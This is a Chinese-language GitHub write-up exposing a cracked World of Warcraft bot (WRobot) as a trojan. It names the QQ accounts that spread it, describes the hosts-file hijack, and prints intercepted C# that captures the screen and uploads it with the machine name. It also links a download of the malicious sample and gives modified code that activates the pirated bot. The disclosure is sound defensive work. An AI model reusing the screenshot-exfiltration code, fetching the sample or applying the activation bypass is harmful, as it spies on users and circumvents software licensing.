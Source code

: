 # Wrobot 后门木马

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

后门木马传播涉事QQ 8171974 287228864 401979123 QQ群 6456089

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/2.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>


当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上

* #==== 下面两行是破解版WR转向服务器IP ====
* 43.252.229.37 tumadre.000webhostapp.com 
* 127.0.0.1 download.wrobot.eu

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「 点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「点击查看截取信息」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

# 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

# 分析
检查过后发现 WRobotWOTLK\Bin\wManager.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 wManager.dll 内几处代码后正常启动。

# 推测
此破解程序由于是用于魔兽世界私人服务器，此类游戏的登陆器大多会被杀毒软件提示病毒而让游戏者关闭杀毒，故破解程序很可能是通过设置多个障碍来在一个小范围内寻找合适的目标并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。

此软件涉及屏幕截图和通过Web请求发送图像数据，这绝对不是正常软件会做的事。

# 后续
在经过火绒安全论坛提交了样本后，由于火绒安全认定，此破解程序为木马

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/Screenshot_2023-03-14_13-02-20.png?raw=true" width=30%  />
</details>

